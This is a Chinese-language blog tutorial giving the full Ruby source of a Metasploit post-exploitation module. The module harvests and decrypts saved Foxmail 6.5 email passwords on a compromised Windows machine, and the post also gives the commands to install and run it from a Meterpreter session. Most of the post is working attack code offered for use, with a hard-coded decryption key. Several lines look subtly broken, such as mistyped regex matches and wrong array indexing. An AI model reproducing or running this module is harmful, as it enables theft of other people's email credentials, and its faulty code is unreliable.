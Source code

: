 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit自定义收集登录凭证的后渗透模块
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit自定义收集登录凭证的后渗透模块
lock: need
---
```


# Metasploit自定义收集登录凭证的后渗透模块

这里，我们以攻击Foxmail 6.5为例，将尝试对登录凭证进行解密，然后将它保存到数据库。

**注意：运行这个脚本的前提是我们已经经过一系列的渗透拿下了目标Windows系统的System权限。**

这里，我们编写脚本foxmail_decrypt_by_binghe.rb，内容如下：

```
##
# Author 冰河
# Date 2019-01-13
# Description 对foxmail 6.5的登录凭证进行解密
#
# 实现过程如下：
# 1.搜索用户的文件，查找当前用户的LocalAppData文件夹的准确位置
# 2.使用上面找到的文职，并将其与\VirtualStore\Program Files(x86)\Tencent\Foxmail\mail连接，建立一个mail文件夹的完整路径
# 3.列出mail文件夹下的所有文件夹，并将它们都保存到一个数组中。在mail文件夹中的每一个文件夹的名字都对应着一个邮箱用户名，比如binghe@formail.com就可以是mail文件夹下的一个文件夹
# 4.在mail文件夹下的accounts文件中查找Account.stg文件
# 5.通过读取Account.stg文件，会发现名为POP3Password的哈希
# 6.将这个值传递给解密方法，然后就会得到明文密码
# 7.将这些值保存到数据库
##

require 'msf/core'

class Metasploit3 < Msf::Post
  include Msf::Post::Windows::Registry
  include Msf::Post::File
  include Msf::Auxiliary::Report
  include Msf::Post::Windows::UserProfiles
  
  def initialize(info={})
    super(update_info(info,
      'Name'          => 'Foxmail 6.5 Credential Harvester',
      'Description'   => %q{
          This module Finds and Decrypts Stored Foxmail 6.5 Credentials
       },
       'License'      => MSF_LICENSE,
       'Author'       => ['binghe'],
       'Platform'     => ['Windows'],
       'SessionTypes' => ['Meterpreter']
    ))
    end
    
    #程序入口
    def run
      profile = grap_user_profiles()
      counter = 0
      data_entry = ""
      profile.each do |user|
        if user['LocalAppData']
          full_path = user['LocalAppData']
          full_path = full_path + "\\VirtualStore\\Program Files(x86)\\Tencent\\Foxmail\\mail"
          if directory?(full_path)
            print_good("Fox Mail Installed, Enumerating Mail Accounts")
            session.fs.dir.foreach(full_path) do |dir_list|
            if dir_list = ~/@/
              counter = counter + 1
              full_path_mail = full_path + "" + dir_list + "" + "Account.stg"
              if file?(full_path_mail)
                print_good("Reading Mail Account #{counter}")
                file_content = read_file(full_path_mail).split("\n")
                file_content.each do |hash|
                if hash = ~/POP3Password/
                  hash_data = hash.split("=")
                  hash_value = hash[1]
                  if hash_value.nil?
                    print_error("No Saved Password")
                  else
                    print_good("Decrypting Password for mail account: #{dir_list}")
                    #调用解密方法进行解密
                    decrypted_pass = decrypt(hash_value, dir_list)
                    data_entry << "Username:" + dir_list + "\t" + "Password:" + decrypted_pass + "\n"
                  end
                 end
                end
               end
              end
             end
            end
           end
          end
          store_loot("Foxmail Accounts", "text/plain", session, data_entry, "Fox.txt", "Fox Mail Accounts") 
      end  
      
      #解密方法
      def decrypt(hash_real, dir_list)
        decoded = ""
        magic = Array[126,100,114,97,71,111,110,126]
        fc0 = 90
        size = (hash_real.length) / 2 - 1
        index = 0
        b = Array.new(size)
        for i in 0 .. size do
         b[i] = (hash_real[index, 2]).hex
         index = index + 2
        end
        b[0] = b[0] ^ fc0
        double_magic = magic + magic
        d = Array.new(b.length - 1)
        for i in 1 .. b.length - 1 do
          d[i-1] = b[i] ^ double_magic[i - 1]
        end
        
        e = Array.new(d.length)
        for i in 0 .. (d.length -1)
          if(d[i] - b[i] < 0)
            e[i] = d[i] + 255 - b[i]
           else
            e[i] = d[i] - b[i]
           end
           decoded << e[i].chr
         end
         print_good("Found Username #{dir_list} with Password: #{decoded}")
         return decoded
       end
end
```

然后我们将foxmail_decrypt_by_binghe.rb脚本上传到Kali的/usr/share/metasploit-framework/modules/post/windows/gather/credentials目录下。

在运行这个脚本之前，我们先使用Metasploit中的msftidy工具检查一下此脚本的语法是否正确。

在Kali的命令行执行如下命令：

```
/usr/share/metasploit-framework/tools/dev/msftidy.rb /usr/share/metasploit-framework/modules/post/windows/gather/credentials/foxmail_decrypt_by_binghe.rb
```

未输出任何信息，证明脚本正确。

接下来，我们的Kali命令行，执行如下命令：

```
meterpreter > background
msf > set SESSION 1
msf > use post/windows/gather/credentials/foxmail_decrypt_by_binghe 
msf post(windows/gather/credentials/foxmail_decrypt_by_binghe) > show options

Module options (post/windows/gather/credentials/foxmail_decrypt_by_binghe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(windows/gather/credentials/foxmail_decrypt_by_binghe) > run
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)